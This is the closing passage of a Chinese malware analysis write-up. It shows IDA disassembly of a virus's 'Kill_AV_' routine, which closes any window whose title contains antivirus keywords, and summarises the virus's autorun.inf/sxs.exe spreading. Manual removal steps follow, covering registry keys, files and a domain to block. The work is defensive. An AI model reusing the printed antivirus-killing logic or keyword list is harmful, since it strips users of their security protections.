> .nsp0:004085F7         push    65h                     ; nMaxCount  
> .nsp0:004085F9         push    edi                     ; lpString  
> .nsp0:004085FA         push    ebx                     ; hWnd  
> .nsp0:004085FB         call    GetWindowTextA  
> .nsp0:00408600         lea     eax, \[ebp+var\_78\]  
> .nsp0:00408603         mov     edx, edi  
> .nsp0:00408605         mov     ecx, 65h  
> .nsp0:0040860A         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:0040860F         mov     edx, \[ebp+var\_78\]  
> .nsp0:00408612         mov     eax, offset aA          ; "木马"  
> .nsp0:00408617         call    @System@@LStrPos$qqrv  
> .nsp0:0040861C         test    eax, eax  
> .nsp0:0040861E         jz      short loc\_40862C  
> .nsp0:00408620         push    0                       ; lParam  
> .nsp0:00408622         push    0                       ; wParam  
> .nsp0:00408624         push    12h                     ; Msg  
> .nsp0:00408626         push    ebx                     ; hWnd  
> .nsp0:00408627         call    PostMessageA  
> .nsp0:0040862C  
> .nsp0:0040862C loc\_40862C:                             ; CODE XREF: Kill\_AV\_+152 j  
> .nsp0:0040862C         test    ebx, ebx  
> .nsp0:0040862E         jnz     short loc\_4085EA  
> .nsp0:00408630         call    GetDesktopWindow  
> .nsp0:00408635         mov     esi, eax  
> .nsp0:00408637  
> .nsp0:00408637 loc\_408637:                             ; CODE XREF: Kill\_AV\_+1AF j  
> .nsp0:00408637         push    0                       ; LPCSTR  
> .nsp0:00408639         push    0                       ; LPCSTR  
> .nsp0:0040863B         push    ebx                     ; HWND  
> .nsp0:0040863C         push    esi                     ; HWND  
> .nsp0:0040863D         call    FindWindowExA  
> .nsp0:00408642         mov     ebx, eax  
> .nsp0:00408644         push    65h                     ; nMaxCount  
> .nsp0:00408646         push    edi                     ; lpString  
> .nsp0:00408647         push    ebx                     ; hWnd  
> .nsp0:00408648         call    GetWindowTextA  
> .nsp0:0040864D         lea     eax, \[ebp+var\_7C\]  
> .nsp0:00408650         mov     edx, edi  
> .nsp0:00408652         mov     ecx, 65h  
> .nsp0:00408657         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:0040865C         mov     edx, \[ebp+var\_7C\]  
> .nsp0:0040865F         mov     eax, offset aI          ; "专杀"  
> .nsp0:00408664         call    @System@@LStrPos$qqrv  
> .nsp0:00408669         test    eax, eax  
> .nsp0:0040866B         jz      short loc\_408679  
> .nsp0:0040866D         push    0                       ; lParam  
> .nsp0:0040866F         push    0                       ; wParam  
> .nsp0:00408671         push    12h                     ; Msg  
> .nsp0:00408673         push    ebx                     ; hWnd  
> .nsp0:00408674         call    PostMessageA  
> .nsp0:00408679  
> .nsp0:00408679 loc\_408679:                             ; CODE XREF: Kill\_AV\_+19F j  
> .nsp0:00408679         test    ebx, ebx  
> .nsp0:0040867B         jnz     short loc\_408637  
> .nsp0:0040867D         call    GetDesktopWindow  
> .nsp0:00408682         mov     esi, eax  
> .nsp0:00408684  
> .nsp0:00408684 loc\_408684:                             ; CODE XREF: Kill\_AV\_+1FC j  
> .nsp0:00408684         push    0                       ; LPCSTR  
> .nsp0:00408686         push    0                       ; LPCSTR  
> .nsp0:00408688         push    ebx                     ; HWND  
> .nsp0:00408689         push    esi                     ; HWND  
> .nsp0:0040868A         call    FindWindowExA  
> .nsp0:0040868F         mov     ebx, eax  
> .nsp0:00408691         push    65h                     ; nMaxCount  
> .nsp0:00408693         push    edi                     ; lpString  
> .nsp0:00408694         push    ebx                     ; hWnd  
> .nsp0:00408695         call    GetWindowTextA  
> .nsp0:0040869A         lea     eax, \[ebp+var\_80\]  
> .nsp0:0040869D         mov     edx, edi  
> .nsp0:0040869F         mov     ecx, 65h  
> .nsp0:004086A4         call    @System@@LStrFromArray$qqrr17System@AnsiStringpci  
> .nsp0:004086A9         mov     edx, \[ebp+var\_80\]  
> .nsp0:004086AC         mov     eax, offset asc\_40874C  ; "安全"  
> .nsp0:004086B1         call    @System@@LStrPos$qqrv  
> .nsp0:004086B6         test    eax, eax  
> .nsp0:004086B8         jz      short loc\_4086C6  
> .nsp0:004086BA         push    0                       ; lParam  
> .nsp0:004086BC         push    0                       ; wParam  
> .nsp0:004086BE         push    12h                     ; Msg  
> .nsp0:004086C0         push    ebx                     ; hWnd  
> .nsp0:004086C1         call    PostMessageA  
> .nsp0:004086C6  
> .nsp0:004086C6 loc\_4086C6:                             ; CODE XREF: Kill\_AV\_+1EC j  
> .nsp0:004086C6         test    ebx, ebx  
> .nsp0:004086C8         jnz     short loc\_408684  
> .nsp0:004086CA         xor     eax, eax  
> .nsp0:004086CC         pop     edx  
> .nsp0:004086CD         pop     ecx  
> .nsp0:004086CE         pop     ecx  
> .nsp0:004086CF         mov     fs:\[eax\], edx  
> .nsp0:004086D2         push    offset loc\_4086EC  
> .nsp0:004086D7  
> .nsp0:004086D7 loc\_4086D7:                             ; CODE XREF: .nsp0:004086EA j  
> .nsp0:004086D7         lea     eax, \[ebp+var\_80\]  
> .nsp0:004086DA         mov     edx, 6  
> .nsp0:004086DF         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:004086E4         retn  
> .nsp0:004086E4 Kill\_AV\_ endp ; sp = -94h  
>   
> 总结一下实时生病毒病毒部分，这部分病毒主要做了以下事:  
> １、实行在机器上的每个分区根目录下生成 autorun.inf 和 sxs.exe 文件;  
> ２、实行终止包含以下反病毒相关字样的程序,如果你直接使用专杀之类那么病毒会让你无法开启。  
> 防火墙  
> 网镖  
> 杀毒  
> 木马  
> 专杀  
> 安全  
> 以上两个操作病毒在每两秒钟执行一次，该实在是太无耻了,不能开专杀也不能使用杀毒软件。既然不能用工具杀，那我们根据这篇文章进行手工操作，将病毒清除干净。  
> 【手工清除】:  
> 根据分析我们可以按以下方式将病毒完美清除:  
> １、直接结束 ergaon.exe 或者查找窗体名为:"tmlurl"的程序，使病毒退出进程。  
> 2、删除相应的注册表项:  
> 主键:HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\Explorer  
> 删除项:"hx-1"  
> 主键:HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\Explorer  
> 删除项:"hx-2"  
> 主键:HKEY\_CURRENT\_USER\\Software\\Microsoft\\Internet Explorer\\New Windows  
> 删除项:"PopupMgr"  
> HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run  
> 删除项:"tmlurl"  
> ３、删除各分区根目录下的:autorun.inf 和 sxs.exe:  
> 具体方法为:  
> 3.1、双击打开"我的电脑",然后点"工具"->"文件夹选项"->"查看",然后将"隐藏受保护的操作系统文件"前的色去掉,并将'隐藏文件和文件夹"下的第二个选项"显示所有文件"选上,确定保存。  
> 3.2、左键相应的分区，然后选择打开(注意不要点自动播放，那样会让病毒再次运行),然后将根目录下的 sxs.exe 文件和 autorun.inf 文件删除。  
> ４、删除系统目录下的:ergaon.exe 和 qqhx.dat;  
> ５、重启系统后删除系统目录下 ergaon.dll 即可。  
> ６、如果你要做的更好一点，清除完病毒后将 www.ctv163.com 加入 host。  
>   
>   
> Author:LoveBoom  
> EMail:Loveboom@163.com  
> URL:www.Loveboom.net  
>   
>   
>   
> 全文完 

 4dd466d0e1e0cc123afbe504da2462ca